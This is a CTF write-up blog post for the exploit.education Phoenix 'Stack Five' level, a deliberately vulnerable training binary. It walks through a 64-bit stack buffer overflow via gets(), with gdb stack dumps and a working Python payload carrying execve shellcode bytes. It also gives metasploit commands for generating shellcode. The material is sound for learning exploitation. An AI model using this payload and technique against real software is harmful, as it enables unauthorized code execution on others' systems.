 ```yaml
---
layout: post
title: "exploit.education Phoenix - Stack 0x5"
category: CTF 
tagline:
tags: [binary, exploitation, phoenix, wargame, ctf, learning]
---
```

{% include JB/setup %}

# Stack 5

Write-up for: [https://exploit.education/phoenix/stack-five/](Stack Five)

<!--more-->

We will use this example as an intro to 64-bit exploitation (mostly because I failed the 32-bit version :P)

1. Identify the vulnerability

The call to `gets` in `start_level` is not bounds-checked. Thus, we can overflow the `buffer` variable by providing input longer than 128 bytes. The goal is to overwrite the stored return address and jump to our own shellcode.

2. Plan of action

Since there is no ASLR and the stack is executable, our payload should look something like this on the stack:

```
[NOP sled]
[execve("/bin/dash") shellcode]
[NOP padding]
[Address of buffer to return to NOP sled]
```

3. Exploit development

In order to exploit this bug, we must first find the address of the buffer and, more importantly, the offset of the return address. We'll use gdb:

```
(gdb) disas main
Dump of assembler code for function main:
0x00000000004005a4 <+0>:     push   %rbp
0x00000000004005a5 <+1>:     mov    %rsp,%rbp
0x00000000004005a8 <+4>:     sub    $0x10,%rsp
0x00000000004005ac <+8>:     mov    %edi,-0x4(%rbp)
0x00000000004005af <+11>:    mov    %rsi,-0x10(%rbp)
0x00000000004005b3 <+15>:    mov    $0x400620,%edi
0x00000000004005b8 <+20>:    callq  0x400400 <puts@plt>
0x00000000004005bd <+25>:    mov    $0x0,%eax
0x00000000004005c2 <+30>:    callq  0x40058d <start_level>
0x00000000004005c7 <+35>:    mov    $0x0,%eax
```

To find the stack address of the stored return address we can set a breakpoint
in `start_level` and inspect the stack. On the stack, we are looking for `4005c7`because this is where we will return to.
We can additionally provide some input to the program to find the address of the `buffer` variable.

```
(gdb) break start_level
Breakpoint 1 at 0x400591

(gdb) disas start_level
Dump of assembler code for function start_level:
0x000000000040058d <+0>:     push   %rbp
0x000000000040058e <+1>:     mov    %rsp,%rbp
=> 0x0000000000400591 <+4>:     add    $0xffffffffffffff80,%rsp
0x0000000000400595 <+8>:     lea    -0x80(%rbp),%rax
0x0000000000400599 <+12>:    mov    %rax,%rdi
0x000000000040059c <+15>:    callq  0x4003f0 <gets@plt>
0x00000000004005a1 <+20>:    nop
0x00000000004005a2 <+21>:    leaveq
0x00000000004005a3 <+22>:    retq
End of assembler dump.

(gdb) break *start_level+20
Breakpoint 2 at 0x4005a1

(gdb) c
Continuing.
AAAAA

Breakpoint 2, 0x00000000004005a1 in start_level ()

(gdb) x/64xw $rsp
0x7fffffffe490: 0x41414141      0x00000041      0x00400620      0x00000000
0x7fffffffe4a0: 0x004005a4      0x00000000      0x00000000      0x00000000
0x7fffffffe4b0: 0x00000000      0x00000000      0xf7db6dde      0x00007fff
0x7fffffffe4c0: 0x004005a4      0x00000000      0x00680037      0x00000000
0x7fffffffe4d0: 0x00000000      0x00000000      0xf7db6b1e      0x00007fff
0x7fffffffe4e0: 0xf7ffb300      0x00007fff      0x00000000      0x0a000000
0x7fffffffe4f0: 0xf7ffb300      0x00007fff      0xf7db9934      0x00007fff
0x7fffffffe500: 0xffffe588      0x00007fff      0xffffe530      0x00007fff
0x7fffffffe510: 0xffffe530      0x00007fff      0x004005c7      0x00000000
0x7fffffffe520: 0xffffe588      0x00007fff      0x00000000      0x00000001
0x7fffffffe530: 0x00000001      0x00000000      0xf7d8fd62      0x00007fff
0x7fffffffe540: 0x00000000      0x00000000      0xffffe580      0x00007fff
0x7fffffffe550: 0x00000000      0x00000000      0xf7ffdbc8      0x00007fff
0x7fffffffe560: 0x00003e00      0x04000001      0x00400459      0x00000000
0x7fffffffe570: 0x00000000      0x00000000      0x00400436      0x00000000
0x7fffffffe580: 0x00000001      0x00000000      0xffffe7cc      0x00007fff
```

First, we break on `start_level` to then disassemble the function to find the end of the function. Note that we could have directly disassembled the function saving us one breakpoint. We run the program with some valid input. Then we inspect the stack (note, it's `$rsp` instead of `$esp`. We're dealing with a 64-bit register now).

Inspecting the stack gives us the following data:

- buffer address: 0x7fffffffe490
- return address location: 0x7fffffffe518 
- offset: 136

Using this information we can craft a payload:

```python
buf = "\x90" * 20
buf += "\x31\xc0\x48\xbb\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xdb\x53\x54\x5f\x99\x52\x57\x54\x5e\xb0\x3b\x0f\x05"
buf += "\x90"* (136 - len(buf)) + "\x7f\xff\xff\xff\xe4\xe0"[::-1]
print buf
```

The shellcode is from http://shell-storm.org/shellcode/files/shellcode-806.php

We start with a NOP sled to give us some flexibility with the exact location of the shellcode. Next, we place our shellcode in the buffer. This is what will be executed later. We fill the remaining space of the buffer with NOPs and overwrite the non-null part of the stored return address with what we believe is an address somewhere in our NOP sled. 

It's very important to note that the location of the stack might differ in gdb since it places additional environment variables before the stack.
To emulate a more realistic execution environment, you can unset these variables in gdb before executing the program:

```
unset env LINES
unset env COLUMNS
```

See also: https://reverseengineering.stackexchange.com/questions/2995/illegal-instruction-exploiting-sample-buffer-overflow-code

Even then, some experimentation with the return address and the length of the NOP slide might be required.

# Exploit

Now we are ready to run the exploit:

```
user@phoenix-amd64:/opt/phoenix/amd64$ python ~/stack-five.py > ~/stack-five
user@phoenix-amd64:/opt/phoenix/amd64$ ./stack-five < ~/stack-five
Welcome to phoenix/stack-five, brought to you by https://exploit.education
user@phoenix-amd64:/opt/phoenix/amd64$
```

Nothing happened? The reason is that using input redirection with `<` immediately terminates the program once the end of input is reached. Instead we need to pipe in the input with `cat ~/stack-five - | ./stack-five`. The `-` keeps stdin open. 

```
user@phoenix-amd64:/opt/phoenix/amd64$ whoami
user
user@phoenix-amd64:/opt/phoenix/amd64$ cat ~/stack-five - | ./stack-five
Welcome to phoenix/stack-five, brought to you by https://exploit.education
whoami
phoenix-amd64-stack-five
```

We popped a shell! Awesome :)

# Alternative, generate shellcode with metasploit 
```
  use payload/linux/x64/exec
  info
  set CMD /bin/sh
  info
  generate -b '\x00' -f python
```
